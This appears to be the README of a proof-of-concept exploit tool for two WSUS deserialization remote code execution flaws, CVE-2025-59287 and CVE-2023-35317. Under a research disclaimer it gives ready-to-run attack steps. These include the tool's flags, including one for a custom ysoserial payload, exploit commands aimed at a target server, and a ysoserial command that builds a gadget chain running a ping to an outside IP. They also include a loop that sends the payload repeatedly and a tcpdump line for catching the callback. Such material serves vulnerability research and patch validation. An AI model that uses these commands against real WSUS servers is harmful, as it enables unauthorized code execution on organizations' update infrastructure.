



# CVE-2025-59287 / CVE-2023-35317 PoC

Inside CVE-2025-59287: SoapFormatter RCE in WSUS: https://shellcode.blog/wsus-cve-2025-59287-investigation/

This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

## Usage

Required flags:
- `--target-url` – Target WSUS server base URL, e.g. `http://WIN-246JC0TE3BB.vuln.local:8530`
- `--cve` – One of `CVE-2023-35317` or `CVE-2025-59287`

Optional flags:
- `--dns-name` – Client DNS name used in SOAP requests (default: `bugcrowd.local`)
- `--random` – Prefix `--dns-name` with a random subdomain so each run appears as a new client
- `--payload` – Custom base64-encoded ysoserial payload; if omitted, a built-in payload is used for the chosen `--cve`
- `--debug` – Enable verbose debug logging (`[DEBUG]` lines)


## CVE-2025-59287
1. `python3 checker.py --target-url http://WIN-246JC0TE3BB.vuln.local:8530 --payload BASE64_YSOSERIAL_BLOB --dns-name bugcrowd.local --cve CVE-2025-59287 --random`
> 


## Manual trigger – CVE-2023-35317
1. (Optional) Generate a payload using Ysoserial.Net if you do not want to use the built-in one (or rely on the built-in payload).
2. Run:
   `python3 checker.py --target-url http://WIN-246JC0TE3BB.vuln.local:8530 --dns-name bugcrowd.local --cve CVE-2023-35317 --random`
3. Open WSUS console

> 

## Automatic trigger – CVE-2023-35317
1. `./ysoserial.exe -g RolePrincipal -f BinaryFormatter -c 'ping 18.118.100.100' -o base64` (or rely on the built-in payload for `--cve CVE-2023-35317`)
2. ```for i in `seq 1 300`; do sleep 1; python3 checker.py --target-url http://WIN-246JC0TE3BB.vuln.local:8530 --payload BASE64_YSOSERIAL_BLOB --dns-name bugcrowd.local --cve CVE-2023-35317 --random ;done```
3. Wait 1-3 minutes and it will spawn under the service’s process.
4. Monitor icmp connections: `sudo tcpdump -l -n -i any icmp | while read line; do   echo "$line";   echo -ne '\a'; done`

> 

